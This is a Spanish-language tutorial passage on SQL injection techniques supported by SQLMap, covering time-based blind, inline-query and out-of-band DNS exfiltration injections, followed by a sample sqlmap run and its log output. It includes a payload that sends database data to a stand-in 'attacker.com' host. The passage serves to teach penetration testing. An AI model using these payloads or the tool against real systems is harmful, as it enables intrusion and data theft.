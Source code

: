 El principio de la inyección SQL ciega basada en el tiempo es similar al de la inyección SQL ciega basada en booleanos, pero en este caso se utiliza el tiempo de respuesta como fuente para diferenciar entre VERDADERO o FALSO.

- La respuesta VERDADERA se caracteriza generalmente por una diferencia notable en el tiempo de respuesta en comparación con la respuesta normal del servidor.

- La respuesta FALSA debería dar lugar a un tiempo de respuesta indistinguible de los tiempos de respuesta normales.

  
Es considerablemente más lenta que la inyección SQL ciega basada en booleanos, ya que las consultas que dan como resultado VERDADERO retrasarían la respuesta del servidor. Este tipo de inyección SQL se utiliza en casos en los que no es aplicable la inyección SQL ciega basada en booleanos. Por ejemplo, en caso de que la instrucción SQL vulnerable sea una no consulta (por ejemplo, INSERT, UPDATE o DELETE), ejecutada como parte de la funcionalidad auxiliar sin ningún efecto en el proceso de renderización de la página, se utiliza la SQLi basada en el tiempo por necesidad, ya que la inyección SQL ciega basada en booleanos no funcionaría realmente en este caso.


##### Consultas en línea

```sql
SELECT (SELECT @@version) from
```

Este tipo de inyección incrustaba una consulta dentro de la consulta original. Este tipo de inyección SQL es poco común, ya que requiere que la aplicación web vulnerable esté escrita de una determinada manera. Aun así, SQLMap también admite este tipo de SQLi.


##### Inyección SQL fuera de banda

```sql
LOAD_FILE(CONCAT('\\\\',@@version,'.attacker.com\\README.txt'))
```

Se considera uno de los tipos más avanzados de SQLi, utilizado en casos en los que todos los demás tipos no son compatibles con la aplicación web vulnerable o son demasiado lentos (por ejemplo, SQLi ciego basado en el tiempo). SQLMap admite SQLi fuera de banda a través de la «exfiltración de DNS», en la que las consultas solicitadas se recuperan a través del tráfico DNS.

Al ejecutar SQLMap en el servidor DNS del dominio bajo control (por ejemplo, .attacker.com), SQLMap puede realizar el ataque obligando al servidor a solicitar subdominios inexistentes (por ejemplo, foo.attacker.com), donde foo sería la respuesta SQL que queremos recibir. A continuación, SQLMap puede recopilar estas solicitudes DNS erróneas y recopilar la parte foo, para formar la respuesta SQL completa.

## Descripción de los mensajes de registro

```shell-session
$ sqlmap -u "http://www.example.com/vuln.php?id=1" --batch
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.4.9}
|_ -| . [,]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org


[*] starting @ 22:26:45 /2020-09-09/

[22:26:45] [INFO] testing connection to the target URL
[22:26:45] [INFO] testing if the target URL content is stable
[22:26:46] [INFO] target URL content is stable
[22:26:46] [INFO] testing if GET parameter 'id' is dynamic
[22:26:46] [INFO] GET parameter 'id' appears to be dynamic
[22:26:46] [INFO] heuristic (basic) test shows that GET parameter 'id' might be injectable (possible DBMS: 'MySQL')
```
